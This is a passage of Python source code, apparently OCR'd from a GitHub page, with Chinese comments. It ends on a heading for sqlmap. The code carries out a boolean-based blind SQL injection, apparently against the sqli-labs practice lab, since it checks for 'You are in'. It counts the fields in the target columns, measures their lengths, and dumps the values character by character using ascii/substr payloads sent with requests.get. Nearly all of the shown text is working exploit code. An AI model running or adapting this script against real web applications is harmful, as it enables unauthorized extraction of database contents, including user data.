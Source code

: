 	                print("当前表名猜解：", column_names)
	                break
	    column_namelist.append(column_names)
	print("users列名:\n[+]", column_namelist)
	
	#爆破字段
	print("爆破字段....")
	print('开始爆破字段数量：')
	for column in column_namelist[0:]:
	    #print(column, '：')
	    dump_num = 0
	    #爆破各个字段数量
	    for i in range(30):
	        db_payload = "' and %d=(select count(%s) from %s.%s)--+" % (i, column, db_name, table_namelist[-1])
	        #print(url+db_payload)
	        r = requests.get(url+db_payload)
	        if "You are in" in r.text:
	            dump_num = i
	            #print(i)
	            break
	    dump_numlist.append(dump_num)
	print('字段数：', dump_numlist)
	
	print('开始爆破字段：')
	for i in range(len(dump_numlist)):
	    print(column_namelist[i]+":")
	    #####字段个数####
	    for j in range(dump_numlist[i]):
	        dump_len = 0
	        dump_name = ''
	        ### 字段长度 ####
	        for k in range(1, 21):
	            db_payload = "' and ascii(substr((select %s from %s.%s limit %d,1),%d,1))--+" % (
	                column_namelist[i], db_name, table_namelist[-1], j, k)
	            r = requests.get(url + db_payload)
	            #print(url + db_payload)
	            if "You are in" not in r.text:
	                dump_len = k - 1
	                break
	        #print(dump_len)
	        for l in range(1, dump_len + 1):
	            for m in range(32, 127):
	                db_payload = "'and ascii(substr((select %s from %s.%s limit %d,1),%d,1))=%d--+"  % (
	                    column_namelist[i], db_name, table_namelist[-1], j, l, m)
	                #print(url + db_payload)
	                r = requests.get(url + db_payload)
	                if "You are in" in r.text:
	                    dump_name += chr(m)
	                    break
	        print('[+]', dump_name)

## SQLMAP ##
